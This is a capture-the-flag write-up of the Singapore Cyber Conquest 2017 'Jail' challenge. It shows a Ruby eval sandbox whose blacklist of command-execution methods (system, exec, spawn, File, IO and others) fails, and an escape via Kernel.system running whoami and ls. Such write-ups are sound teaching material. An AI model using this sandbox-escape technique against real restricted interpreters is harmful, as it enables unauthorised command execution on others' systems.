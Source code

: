 ```yaml
---
title: "Singapore Cyber Conquest 2017 - Jail (Misc)"
header:
  overlay_image: /assets/images/scc2017/jail/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Brandi Redd on Unsplash"
tags:
  - scc2017
  - writeup
  - miscellaneous
---
```


Simple ruby jail challenge with a failing blacklist that deletes common methods
that allow for arbitrary command execution.

## Challenge Description

#### Points

200

#### Description

```
There are many python jail challenges in CTFs.

Let's try to break something new!

The flag is located at ./flag.

nc 54.255.188.183 7411
```

#### Solvers

4 Teams solved

## Solution

We are given a ruby jail:

```ruby
#!/usr/bin/env ruby

$stdout.sync = true

def ban(m, blacklist)
  m.module_eval do
    blacklist.each do |meth|
      send(:remove_const, meth) rescue nil
      define_method(meth) do |*|
        raise "No Hack No Life :P (#{meth})"
      end
    end
  end
end

ban(Kernel, %i(` exec fork load open spawn syscall system))
ban(Object, %i(Dir File IO ObjectSpace Process Thread class))

loop do
  print '> '
  line = $stdin.gets
  break if line.nil?
  begin
    p eval(line, TOPLEVEL_BINDING)
  rescue Exception => e
    puts e
  end
end
```

Even though it says that `Kernel.system` is supposed to be blacklisted, it does
not seem to work.

```shell
$ ruby a9463878cec7f509bb79017455f31293_jail.rb
> Kernel.system("whoami")
ubuntu
true
> Kernel.system("ls")
a9463878cec7f509bb79017455f31293_jail.rb  jail.rb
true
>
```

Thus, we can get the flag with the new shell access we have.
